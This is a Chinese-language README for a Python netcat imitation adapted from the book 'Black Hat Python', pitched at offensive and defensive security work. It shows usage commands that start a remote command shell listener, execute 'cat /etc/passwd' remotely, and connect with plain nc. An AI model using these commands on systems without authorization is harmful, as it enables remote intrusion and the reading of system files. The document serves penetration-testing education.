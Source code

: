# simulation_netcat

日常攻防中，如果遇到没有安装netcat，却有python环境的服务器。

在这种情况下，要是能创建一个简单的网络客户端和服务端用来传送文件、远程执行命令，则大有用武之地。

[![img](https://camo.githubusercontent.com/9720111972806b0d6aa749d577980c88e1ae700828471da7091018065108afdd/68747470733a2f2f6b6f6d617265762e636f6d2f67687076632f3f757365726e616d653d4578704c616e67636e)](https://camo.githubusercontent.com/9720111972806b0d6aa749d577980c88e1ae700828471da7091018065108afdd/68747470733a2f2f6b6f6d617265762e636f6d2f67687076632f3f757365726e616d653d4578704c616e67636e)

------

<details>
<summary><b>🐍前言</b></summary>

案例来自《python黑帽子黑客与渗透测试编程之道》，翻译是大神@Gh0u1L5，腾讯玄武实验室安全研究员

书中一共24个实验，第一个实验（取代netcat），谈不上取代，只能说模拟。顾称simulation_netcat

<details>
<summary><b>💖环境</b></summary>

Win测试环境+kali测试环境+Ubuntu测试环境+pycharm开发环境

<details>
<summary><b>🎨简介</b></summary>

netcat俗称瑞士军刀，小巧灵活，牛逼plus，文件传输、反弹shell无所不能

<details>
<summary><b>🎄实例</b></summary>

- 查看帮助

```
python3 netcat.py --help
```

![image-20221230001426983](https://icml0x824.oss-cn-hangzhou.aliyuncs.com/202212300014203.png)

- 反弹shell

```
python3 netcat.py -t 192.168.31.19 -p 3333 -l -c
```

![image-20221230001532776](https://icml0x824.oss-cn-hangzhou.aliyuncs.com/202212300015869.png)

- 执行命令

```
python3 netcat.py -t 192.168.31.19 -p 3333 -l -e="cat /etc/passwd"
```

![image-20221230001658839](https://icml0x824.oss-cn-hangzhou.aliyuncs.com/202212300016983.png)

- nc融合

可作为服务端，客户端用原版nc同样可连接

```
nc 192.168.31.19 3333
```

![image-20221230001944498](https://icml0x824.oss-cn-hangzhou.aliyuncs.com/202212300019544.png)

- 问题

传输文件请用原版nc作为客户端

Linux-Linux测试成功

Windows-Linux测试成功

- 若遇到socket抛出的OSError: [Errno 99] Cannot assign requested address报错请自行google

